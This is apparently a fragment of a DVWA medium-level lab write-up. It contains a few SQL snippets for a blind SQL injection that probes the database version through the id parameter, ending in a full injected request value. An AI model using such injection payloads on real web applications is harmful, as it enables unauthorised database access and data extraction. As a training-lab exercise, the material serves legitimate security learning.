 ![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2062.png)

```sql
SELECT 1,SUBSTRING((SELECT @@version),1,20);
```

```sql
SELECT SUBSTRING((SELECT @@version),1,20);
```

```sql
(SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.26%');
```

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,20)); &Submit=Submit
```
